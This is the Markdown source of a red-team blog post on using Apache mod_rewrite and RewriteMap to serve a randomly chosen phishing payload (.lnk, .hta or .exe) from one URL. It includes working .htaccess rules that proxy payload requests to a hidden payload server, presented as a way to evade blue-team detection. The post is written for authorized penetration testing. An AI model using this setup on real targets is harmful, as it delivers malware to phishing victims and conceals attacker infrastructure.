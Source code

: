 ```yaml
---
layout: post
title: Serving Random Payloads with Apache mod_rewrite
tags:
- mod_rewrite
- phishing
- red team infrastructure
image: /assets/mod_rewrite-random-payloads/diagram.png
commentIssueId: 24
---
```


As testers, we sometimes need some good, old-fashioned trial and error to get things working. Phishing is one of the attacks that commonly takes more than one attempt to get payloads and command and control (C2) working properly. This post covers how to help effectively perform payload trial and error by randomly serving payloads from one URL with Apache mod_rewrite.

The technique described in this post lends itself more to a penetration test, where email phishing batches may span an entire target company, rather than a red team assessment, where email phishing is highly targeted and payload issues are painstakingly troubleshot manually. Following the steps below, we can configure an Apache redirector, or server directly, to serve a random payload from a predefined list of possible payloads with the [RewriteMap - randomized plain text](http://httpd.apache.org/docs/current/rewrite/rewritemap.html#rnd) functionality of Apache.

Apache's RewriteMap function allows external programs, such as scripts, databases, or text files to remap requests for Apache to serve. The example commonly used in the official documentation is if a store changes from a URL structure of *item-1234* to *iPhone-7-white*, the web administrators could use Apache to serve up *iPhone-7-white* when *item-1234* is requested without having to change any hard coded links. RewriteMap provides a bulk method of translating these resource modifications. We will use RewriteMap to pull a random payload URI from a text file and return a 302 (temporary) redirection to cause the target to request the randomized payload file.

Here is a diagram of our attack workflow:

{% include image.html file="/assets/mod_rewrite-random-payloads/diagram.png" description="Random Payload Serving Diagram" %}

# Setup

Apache requires a few configuration changes to support mod_rewrite and RewriteMap. These are explained in detail under the first time setup section of my previous post [Strengthen Your Phishing with Apache mod_rewrite and Mobile User Redirection]({{site.baseurl}}/2016-03-22-strengthen-your-phishing-with-apache-mod_rewrite-and-mobile-user-redirection/). In short, modify the Apache configuration file, which is `/etc/apache2/apache2.conf` by default on most Debian-based distros, to allow htaccess rewriting by changing the following snippet to read **All** instead of **None**:

```bash
<Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
</Directory>
```

If the web root of your redirector is a directory other than the default `/var/www/`, you will need to modify the corresponding Directory Context's *AllowOverride* setting.


Within the [server context](http://httpd.apache.org/docs/current/mod/directive-dict.html#Context) (such as the bottom) of the configuration file, we need to add the following text:

```bash
RewriteMap payloads "rnd:/var/www/payloads.txt"
```

This tells mod_rewrite that when we call the *payloads* variable with RewriteMap, pull entries from the path `/var/www/payloads.txt`. This file must be readable by Apache and should be stored outside the web root, which is `/var/www/html` in this example.

Create a file at `/var/www/payloads.txt` and enter the following text:

```bash
windows payload.lnk|payload.hta|payload.exe
```

In this example, *windows* is our key and *payload.lnk*, *payload.hta*, and *payload.exe* are our values. When RewriteMap is called on the payloads file and provided the *windows* key, a random value from the pipe separated list is returned. We can add a value multiple times to increase its likelihood of being returned. This file can be updated on the fly without needing to restart *apache2*. If you determine a certain payload doesn't work or stand up a new payload, you can freely modify the *payloads.txt* file.

Enable the needed mod_rewrite modules and restart *apache2* by running the following command as root:

```bash
a2enmod rewrite proxy proxy_http && service apache2 restart
```

The final configuration step is to set up our *htaccess* file. Create the file `/var/www/html/.htaccess` and place the following text within it:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
RewriteEngine On<br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/payload</span><span style="color: mediumpurple">/?$</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">/${payloads:windows}</span> <span style="color: tomato">[L,R=302]</span><br>
RewriteCond <span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: mediumseagreen">^/payload\.(exe|lnk|hta)</span><br>
RewriteRule <span style="color: gold">^.*$</span> <span style="color: orange">http://192.168.188.134</span><span style="color: dodgerblue">%{REQUEST_URI}</span> <span style="color: tomato">[P]</span>
</div>

Here's a line-by-line breakdown of that ruleset:

<div style="background-color:rgb(39,40,34);color:rgb(248,248,242);font-size:.85em;overflow-x:scroll;white-space: nowrap;padding:6px;">
Enable the rewrite engine<br>
<span style="color: dodgerblue">If the request’s URI</span> <span style="color: mediumseagreen">starts with ‘payload’</span> <span style="color: mediumpurple"> with an optional trailing slash at the end of the URI,</span><br>
<span style="color: gold">rewrite the entire request</span> <span style="color: orange">to a random value pulled from the RewriteMap file linked to "payloads" with the key "windows"</span> <span style="color: tomato">This is a temporary redirect and the last rule that should be evaluated/applied to the request.</span><br>
<span style="color: dodgerblue">If the request’s URI</span> <span style="color: mediumseagreen">starts with ‘payload’ and ends with the file extension exe, lnk, or hta,</span><br>
<span style="color: gold">rewrite the entire request</span> <span style="color: orange">to serve the </span><span style="color: dodgerblue"> request URI </span><span style="color: orange"> from IP 192.168.188.134 (the payload server IP), </span><span style="color: tomato">and keep the user's address bar the same (obscure the teamserver's IP).</span>
</div>

Now the server is fully configured. 

Here is a demo of the ruleset above randomly serving an executable file and then an HTML Application (HTA) file when a user visits `http://spoofdomain.com/payload` twice in a row:

{% include image.html file="/assets/mod_rewrite-random-payloads/demo.gif" description="Random Payload Serving Demo" %}

# Summary

Apache mod_rewrite provides pentesters and red teamers with a [wealth of options](https://bluescreenofjeff.com/tags#mod_rewrite) to strengthen their attack infrastructure and phishing campaigns. Techniques can be combined for greater effect to help gain more valuable information from the clicks you receive and help evade blue team detection and response. Randomly serving payloads to phishing targets can increase the likelihood of finding a payload that works on target and minimizes the risk of wasting valuable clicks.


{:#resources}

# Resources

* [mod-rewrite-cheatsheet.com](http://mod-rewrite-cheatsheet.com)
* [Official Apache 2.4 mod_rewrite Documentation](http://httpd.apache.org/docs/current/rewrite/)
	* [Apache mod_rewrite Introduction](https://httpd.apache.org/docs/2.4/en/rewrite/intro.html)
* [An In-Depth Guide to mod_rewrite for Apache](http://code.tutsplus.com/tutorials/an-in-depth-guide-to-mod_rewrite-for-apache--net-6708)
* [Red Team Infrastructure Wiki](https://github.com/bluscreenofjeff/Red-Team-Infrastructure-Wiki)
